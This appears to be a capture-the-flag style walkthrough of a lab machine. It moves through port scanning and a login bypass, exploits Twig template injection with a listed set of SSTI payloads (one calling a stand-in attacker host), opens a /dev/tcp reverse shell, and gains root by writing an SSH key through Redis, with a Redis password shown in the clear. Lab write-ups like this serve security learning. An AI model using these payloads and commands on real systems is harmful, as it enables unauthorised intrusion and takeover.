


#  Network Enumeration

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg]                                               
└─$ sudo nmap -vvv --max-retries 1 -Pn -r -n 192.168.151.203
PORT   STATE SERVICE REASON    
22/tcp open  ssh     syn-ack ttl 61                  
80/tcp open  http    syn-ack ttl 61
```

# Web enumeration

Just shows a main page with 3 buttons.


Login will post json values to server.


Try to change the password to true.

Will navigate to `dashboard.php`.


Scanning with `dirsearch` will find the `/vendor` path.


In `/vendor/composer/installed.json` will find the version of this web app is `tiwg v1.19.0.0`


Search on google will navigate to [Twig < 2.4.4 - Server Side Template Injection](https://www.exploit-db.com/exploits/44102).


Check the details, which means this version include `SSTI vulnerability`.


Back to `/dashboard`, try to submit a order.


Then will shows the `You Order 'aaron' has been sent`, so try to exploit with name.


Then return the `16`.


Check the payload with [Payload All the things](https://github.com/swisskyrepo/PayloadsAllTheThings)

```json
{{self}}
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{['id']|filter('system')}}
{{[0]|reduce('system','id')}}
{{['id']|map('system')|join}}
{{['id',1]|sort('system')|join}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
{{['id']|filter('passthru')}}
{{['id']|map('passthru')}}
```

Try running the id.


That will execution.


Now edit the shell content.

```bash
/bin/sh -i >& /dev/tcp/192.168.45.187/22 0>&1
```


Need to running with `bash -c`.


Then get shell.


# PE

## Basic Information


## Active Ports


## Users


## Useful software


## Intesting files


## Try to PE with Kernal Vulnerability

### CVE-2021-4034


It's failed.

## Check interesting files

There is a password for redis.


Use `chisel` to forward `redis` port for local kali.

```bash
$ ./chisel_kali client 192.168.45.187:8081 R:6379:127.0.0.1:6379

┌──(aaron㉿aacai)-[~/Desktop/Script]
└─$ ./chisel_kali server --port 8081 --reverse   

```

Then login to redis locally, also generate ssh key for me.


Edit a spaced_key for PE.

```bash
┌──(aaron㉿aacai)-[~/Desktop]
└─$ (echo -e "\n\n"; cat ~/.ssh/id_rsa.pub;echo -e "\n\n") > spaced_key.txt

```

Then set ssh_key for root account.

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/Illusion]
└─$ cat spaced_key.txt| redis-cli -h 127.0.0.1 -a 'sgm5ZgEsCrj4L/0fi/1XGUcGII2GTuAjo3eotCFNy6ZManKrLWQaRCTOE6QpyCojpyr+Rix12VYbdOkA' -x set ssh_key

```



Login to redis set the dbfile.

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/Illusion]
└─$ redis-cli -h 127.0.0.1 -a "sgm5ZgEsCrj4L/0fi/1XGUcGII2GTuAjo3eotCFNy6ZManKrLWQaRCTOE6QpyCojpyr+Rix12VYbdOkA"
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.

127.0.0.1:6379> config set dir /root/.ssh
OK
127.0.0.1:6379> config set dbfilename "authorized_keys"
OK
(1.93s)
127.0.0.1:6379> save
OK
127.0.0.1:6379> exit

```


Login to ssh with `id_rsa`. Finally get root.

